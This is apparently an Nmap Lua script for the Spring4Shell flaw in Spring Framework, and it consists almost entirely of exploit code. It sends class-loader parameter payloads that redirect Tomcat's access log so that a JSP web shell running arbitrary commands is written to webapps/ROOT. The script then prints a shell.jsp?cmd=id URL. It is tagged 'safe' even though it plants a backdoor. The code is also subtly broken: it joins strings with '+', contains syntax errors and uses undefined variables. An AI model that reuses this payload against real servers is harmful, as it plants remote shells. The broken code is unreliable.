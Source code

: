 # nmap-spring4shell

local https = require('ssl.https')
local stdnse = require "stdnse"

description = [[
]]

---
-- @usage
-- 
-- @output
--
-- @args
--
---

author = "Grzegorz Piechnik"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"default", "vuln", "safe", "spring4shell"}

portrule = shortport.http

local function wait (s)
  local timer = io.popen("sleep " .. s)
  timer:close()
end

action = function(url, port)

  local post_headers = {
    ["content-type"] = "application/x-www-form-urlencoded"
  }

  local get_headers = {
      ["prefix"] = "<%",
      ["suffix"] = "%>//",
      ["c"] = "Runtime"
  }

  local log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
  local log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
  local log_file_dir = "class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT"
  local log_file_prefix = "class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell"
  local log_file_date_format  = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
  local file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"

  local payload = log_pattern + log_file_suffix + log_file_dir + log_file_prefix + log_file_date_format
  local url = stdnse.get_script_args('nse-spring4shell.url')
  local port = stdnse.get_script_args('nse-spring4shell.port') or "80"

	if ( not(url) ) then
    return "\n  ERROR: No url was specified (see nse-spring4shell.url)"
	end

  -- first POST request
  local result, respcode, respheaders, respstatus = https.request {
    method = "POST",
    url = url;,
    source = ltn12.source.string(file_date_data),
    headers = post_headers,
    sink = ltn12.sink.table(respbody)
  }

  -- change the tomcat log location variables
  local result, respcode, respheaders, respstatus = https.request {
    method = "POST",
    url = url;,
    source = ltn12.source.string(payload),
    headers = post_headers,
    sink = ltn12.sink.table(respbody)
  }

  wait(3)

  -- write the web shell
  local result, respcode, respheaders, respstatus = https.request {
    method = "GET",
    url = url;,
    headers = get_headers,
    sink = ltn12.sink.table(respbody)
  }

  if respcode~=200 then 
    return "\n  ERROR: Not valid status code".. (code or '')
  end

  wait(1)

  -- reset the pattern
  local pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="

  local result, respcode, respheaders, respstatus = https.request {
    method = "POST",
    url = url;,
    source = ltn12.source.string(pattern_data),
    headers = post_headers,
    sink = ltn12.sink.table(respbody)
  }

  respbody = table.concat(respbody)

  -- verify that RCE is working on the server. We will check it with 3 commands: ls
  print("https://", url, "/", "shell.jsp?cmd=id")

end


